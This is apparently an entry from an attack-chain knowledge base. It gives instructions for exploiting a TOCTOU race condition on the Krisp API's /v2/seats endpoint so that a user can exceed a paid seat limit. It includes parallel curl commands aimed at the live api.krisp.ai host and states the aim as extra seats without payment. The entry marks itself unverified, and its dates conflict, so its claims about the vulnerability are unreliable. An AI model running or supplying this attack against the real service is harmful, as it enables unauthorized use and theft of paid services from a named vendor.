

---
tags:
  - race-condition
  - toctou
  - api-bypass
  - unauthorized-access
  - krisp
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands:
  - '[[commands/curl-assign-seat]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Exploit-TOCTOU-Race-Condition-on-Krisp-Seats-Endpoint]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A multi-request race condition exploit allowing users to exceed subscribed
  seat limits on the Krisp API by sending concurrent requests to the /v2/seats
  endpoint, leading to unauthorized access to additional seats without payment.
skill_level: intermediate
impact_level: high
id: 55608f99-1d22-4806-8da9-dca3f49d53c4
created_at: '2025-12-14T17:24:22.268Z'
updated_at: '2025-12-14T17:24:22.268Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# TOCTOU Race Condition on Krisp API /v2/seats Endpoint to Bypass Seat Limits

Multi-stage attack chain demonstrating a complete attack workflow exploiting a Time-of-Check Time-of-Use (TOCTOU) race condition in the Krisp API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-assign-seat]]

### Target Environment

- Web API platform (api.krisp.ai)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to api.krisp.ai

### Initial Access Requirements

- Valid authenticated session or API token for a Krisp account with a seat limit
- Knowledge of the /v2/seats endpoint behavior
- Prior access needed: Subscribed Krisp user account

## Detailed Attack Procedures

### Step 1: Exploit Race Condition to Assign Extra Seats
procedure: [[procedures/Exploit-TOCTOU-Race-Condition-on-Krisp-Seats-Endpoint]]

**Objective**: Bypass the maximum seat limit enforcement by sending concurrent requests that exploit the TOCTOU vulnerability, allowing assignment of seats beyond the subscription quota.

**Instructions**: Authenticate to the Krisp API using your valid credentials to obtain a session token. Then, identify your current seat limit (e.g., via a GET request to /v2/seats). To exploit the race, send multiple concurrent POST requests to /v2/seats to assign additional seats. Use a tool or script to parallelize requests, such as running multiple instances of [[commands/curl-assign-seat]] in parallel (e.g., via a bash loop or ab - Apache Bench for higher concurrency).

First, prepare your authentication token:

```bash
# Assume you have a valid API token from login
TOKEN="your_api_token_here"
```

Then, execute concurrent seat assignments using [[commands/curl-assign-seat]]:

```bash
# Run in parallel, e.g., using & for background processes
curl -X POST https://api.krisp.ai/v2/seats -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"action": "assign", "user_id": "target_user"}' &
curl -X POST https://api.krisp.ai/v2/seats -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"action": "assign", "user_id": "target_user"}' &
# Repeat for desired number of concurrent requests (e.g., 10+ to exceed limit)
wait  # Wait for all background processes to complete
```

**Expected Output**: Successful HTTP 200 responses for each request, with seat assignments confirmed, even if exceeding the original limit. The API will process requests without proper synchronization, allowing extra seats.

**Success Indicators**:
- API returns confirmation of seat assignments beyond the subscribed limit
- Subsequent GET to /v2/seats shows increased seat count
- No rate limiting or error for exceeding quota during concurrent execution

## Attack Chain Summary

### Key Achievements

1. Bypassed seat limit validation through concurrent API requests
2. Gained unauthorized access to additional seats without payment
3. Demonstrated TOCTOU vulnerability in seat management logic

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
